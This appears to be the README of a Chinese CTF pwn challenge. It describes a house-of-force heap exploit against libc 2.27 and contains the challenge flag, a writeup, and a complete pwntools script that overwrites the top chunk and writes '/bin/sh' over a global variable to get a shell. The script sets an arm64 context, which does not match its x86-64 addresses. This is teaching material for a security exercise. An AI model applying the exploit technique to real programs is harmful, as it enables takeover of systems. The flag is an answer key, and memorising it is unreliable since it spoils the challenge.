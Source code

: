 * 题目名称：Key
* 题目类型：Pwn
* 题目难度：中等
* 考点：house of force
* 描述：libc版本为2.27
* flag:XSCTF{h0u4e_0F_F0r4e_1s_v3rY_ea4y}
* other:release文件夹中的文件才是公布出去的题目  
        ctf_xinetd文件夹是打包好的docker环境
* writeup:  
该题为简单的堆利用，用到的技巧为house of force  
有关house of force的原理可以参考：https://bbs.kanxue.com/thread-222924.htm  
这里只讲述几个需要注意的点：  
我们希望把堆块申请到0x601088这个地址，将这个地址加上0x10的大小的堆头和0x8的read函数的读入偏移后通过read函数写入数据的起始地址为
0x6010a0,这正是key变量所在的地址，我们将/bin/sh\x00写入即可getshell  
```python
top_heap = addr + 0xa0
```
top_heap的地址加0xa0是因为题目中free掉的0xa0大小的chunk没有给top chunk所合并，而是进入到tcache中
```python
heap = 0x601088 - top_heap - 0x10
```
这后面-0x10是为了避免堆头部的16字节对偏移的影响  
完整exp:  
```python
from pwn import *

p = remote("",)

context(arch='arm64', os='linux', log_level='debug')

def add(size,context):
    p.recvuntil('> ')
    p.sendline(b'1')
    p.recvuntil('size: ')
    p.sendline(str(size))
    p.recvuntil('data: ')
    p.send(context)

p.recvuntil('gift :D ')
addr = int(p.recvuntil('\n', drop = True),16)
top_heap = addr + 0xa0
success('addr:' + hex(top_heap))
heap = 0x601088 - top_heap - 0x10

add(0x18,b'a'*0x10 + p64(0xffffffffffffffff))
add(heap,b'bbbb')
add(0x10,b'\x00'*8+b'/bin/sh\x00')
p.recvuntil('> ')
p.sendline(b'2')

p.interactive()
```



